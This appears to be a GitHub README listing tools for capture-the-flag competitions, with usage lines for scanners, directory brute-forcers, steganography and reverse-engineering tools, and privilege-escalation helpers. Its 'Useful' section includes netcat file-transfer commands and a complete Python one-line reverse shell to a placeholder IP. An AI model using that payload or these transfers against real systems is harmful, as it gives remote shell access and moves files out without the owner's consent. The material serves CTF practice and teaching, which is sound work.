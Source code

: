 # CTF-tools
Collection of useful tools for CTFs.


## Categories
  - [Web](#web)
  - [Crypto](#crypto)
  - [Steganography](#stego)
  - [Binary/Reverse](#binary)
  - [Other](#other)
  - [Useful](#useful)
  - [to update]

---

## Web

* nmap
```
Example usage : sudo nmap -sS -A -T4 <ip_target> -oN <name_output> -vv
```
* gobuster
```
Example usage for directory/file enum :
                gobuster dir -u <ip_target> --wordlist <path_to_wordlist> -x <extensions>
  where:  * path_to_wordlist can be something like "/usr/share/wordlists/<wordlist>"
          * extensions like php, txt, js, cgi, sh, ...
```
* dirb
* curl
* nikto
```
Example usage: nikto -h <ip_target>
```
* wpscan
* wget 
```
Example usage: wget <url>
```

---

## Crypto

* [CyberChef](https://gchq.github.io/CyberChef/)

---

## Steganography

* steghide
```
Example usage: steghide <command> <file>
  where command can be:   > info
                          > extract 
                          > embed 
```
* [Stegosolve](http://www.caesum.com/handbook/Stegsolve.jar)

---

## Binary/Reverse

* checksec
* strings
* ltrace
* strace
* apktool
* frida
* gdb / gdb-peda
* hexdump (-C option very useful)
* objdump

---

## Other

* nc -- TCP/IP swiss army knife
* linpeas.sh -- for Linux Privesc
* sudo -l -- to get which files I can run with sudo
* searchsploit -- search through Exploit db archive
```
Example usage: searchsploit OpenSSH 7.2p2
               searchsploit -p 46635  -- it returns the URL of the CVE in exploit db
```
* msfconsole -- the god tool for exploitation


---



## Useful

* sending a file using nc:
```
    client side : nc -lvp <port> > <file>
    server side : nc <ip_server> <port_server> < <file>
```
* sending a file using nc + wget:
```
    client side : nc -lvp <port> < <file>
    server side : wget <ip_server>:<port_server>/<file>

!! [NOTE: protocol will continue after transmission of file (maybe because client side does not receive CRLF sequence). So after a while, just press CTRL+c et voit-là] 
```
* to convert a python script from v.2 to v.3
```
    python3 -m lib2to3 <script>.py -w
```
* connect to server pop3 (port 110) using telnet:
```
    telnet <ip> 110
```
* reverse shell with one line only, using python3:
```
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


---




# Contributors

- Francesco Varotto - [@frarotto](https://github.com/francevarotz98/)
- Massimiliano Belluomini - [@massibelluomini](https://github.com/massibelluomini)
